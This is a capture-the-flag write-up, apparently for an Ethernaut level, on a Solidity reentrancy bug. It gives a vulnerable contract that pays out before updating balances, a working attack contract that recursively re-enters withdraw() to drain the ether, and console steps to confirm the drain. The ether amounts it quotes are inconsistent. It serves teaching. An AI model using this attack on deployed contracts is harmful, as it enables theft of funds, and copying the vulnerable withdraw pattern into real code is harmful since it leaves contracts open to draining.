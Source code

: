 <img src="reentrancy.png" alt="reentrancy" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
   function withdraw(uint _amount) external; 
   function donate(address _to) external payable;
}

contract ReentrancyAttack {
    IReentrance reentanceContract;
    address payable owner;
    
    constructor (address payable _targetAddress) public {
        reentanceContract = IReentrance(_targetAddress);
        owner = msg.sender;
    }

    function donate() public payable {
        reentanceContract.donate{value: msg.value}(address(this));
    }

    function withdraw(uint _amount) public {
        reentanceContract.withdraw(_amount);
    }

    function destroy() public {
        selfdestruct(owner);
    }

    receive() external payable {
        reentanceContract.withdraw(msg.value);
    }
}
```

So the receive payable function is very crucial in this attack to recursively call the withdraw function until the target contract runs out of ether.

So, first of all we donate the contract with the same amount of ether the contract has i.e 0.001 ether to fully empty the contract. Then we call the withdraw function of this ReentrancyAttack contract to withdraw the amount we have deposited using donate function. The Reentrance contract actually has the checks-effects-interaction pattern missing i.e we first check if the user has enough balance to withdraw then subtract the amount to be withdrawn and only transfer the amount and in this case Reentrance contract is transferring the amount without subtracting the amount from the available balance which causes the ReentrancyAttack contract to enter the withdraw function again and again to withdraw the amount multiple times recursively until the ethers of the contract goes to zero.

Run the below command in the console to get the contract ether available i.e 0.0001
```
await getBalance(contract.address)
```
After attack run the command again to get the contract ether and it is 0.

